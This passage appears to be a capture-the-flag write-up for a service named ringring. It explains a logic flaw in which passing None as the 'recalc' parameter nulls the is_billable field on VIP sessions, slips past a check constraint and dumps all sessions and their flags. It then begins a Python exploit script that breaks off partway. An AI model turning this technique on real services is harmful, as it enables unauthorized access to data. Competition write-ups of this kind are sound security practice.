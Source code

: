 which uses the utility functions `make_vip` abd `update_invoicing`:
```python
def make_vip(session_id):
    conn = psycopg2.connect(CONNECTION_STRING)
    cur = conn.cursor()
    query = """
    DELETE FROM ringring.sessions WHERE session_id = (%s);
    INSERT INTO ringring.sessions (session_id, is_billable, is_vip) VALUES (%s, %s, %s);
    """
    cur.execute(query, [session_id, session_id, False, True])
    conn.commit()
    conn.close()
```

```python
def update_invoicing(vips_are_billable=False):
    conn = psycopg2.connect(CONNECTION_STRING)
    cur = conn.cursor()
    try:
        query = sql.SQL("""
        UPDATE ringring.sessions SET is_billable = (%s) WHERE is_vip = TRUE;
        """)
        cur.execute(query, [vips_are_billable])
    except (psycopg2.ProgrammingError, psycopg2.errors.CheckViolation):
        conn.rollback()
        return False
    conn.commit()
    conn.close()
    return True
```

Calling this endpoint the bot marks his session as vip and not billable, in this way the server doesn't print it. The `make_me_a_vip` endpoint does more than that, though!
If we pass the `recalc` parameter its value is passed to `update_invoicing` function and used to perform the update query over all the vips sessions. We could pass `That` so that the accounts become billable and printable by the application. When we attempt to do that the database throws an error because the `is_billable` row in the database table has a check constraint:
```sql
is_billable boolean CHECK ( is_billable != is_vip ) DEFAULT TRUE,
```
we can't set `is_billable` to True while `is_vip` is True too because the check fails and so the query.

A solution to this problem is the `NULL` value: since the row hasn't the `NOT NULL` constraint set, we can use it as a third value. We need to pass `None` via the recalc parameter and we can now dump all the sessions, even the vip ones!

Our first exploit is:
```python
import requests
import re
import sys
import threading

IP = sys.argv[1]
base_url = f'http://{IP}:7353/'
session_regex = '<tr><td>(.*)</td></tr>'
flag_regex = 'ENO[A-Za-z0-9+\/=]{48}'


def nuda_tutto_quanto():
    s = requests.Session()
    r = s.get(f'{base_url}')

    form = {
        'recalc' : 'None'
    }
```